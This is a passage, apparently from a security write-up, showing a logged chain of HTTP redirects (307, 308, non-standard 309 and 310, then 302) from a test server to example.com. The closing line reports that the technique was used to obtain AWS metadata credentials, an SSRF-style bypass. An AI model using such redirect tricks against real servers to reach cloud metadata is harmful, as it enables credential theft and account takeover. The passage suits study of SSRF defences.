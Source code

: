 ```http hljs
location: /redir?count=5

HTTP/1.1 307 TEMPORARY REDIRECT
Date: Sun, 01 Jun 2025 02:43:19 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
location: /redir?count=6

HTTP/1.1 308 PERMANENT REDIRECT
Date: Sun, 01 Jun 2025 02:43:19 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
location: /redir?count=7

HTTP/1.1 309 UNKNOWN
Date: Sun, 01 Jun 2025 02:43:20 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
location: /redir?count=8

HTTP/1.1 310 UNKNOWN
Date: Sun, 01 Jun 2025 02:43:20 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 215
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
location: /redir?count=9

HTTP/1.1 302 FOUND
Date: Sun, 01 Jun 2025 02:43:21 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 225
Connection: keep-alive
server: Werkzeug/2.2.3 Python/3.10.12
location: https://example.com

HTTP/1.1 200 OK
Accept-Ranges: bytes
Content-Type: text/html
ETag: "84238dfc8092e5d9c0dac8ef93371a07:1736799080.121134"
Last-Modified: Mon, 13 Jan 2025 20:11:20 GMT
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 648
Cache-Control: max-age=1824
Date: Sun, 01 Jun 2025 02:43:21 GMT
Alt-Svc: h3=":443"; ma=93600,h3-29=":443"; ma=93600,quic=":443"; ma=93600; v="43"
Connection: keep-alive

<!doctype html>

... omitted for brevity ... (full response)

```

This was really surprising, but our goal was achieved! We used this technique to obtain the AWS metadata credentials successfully.
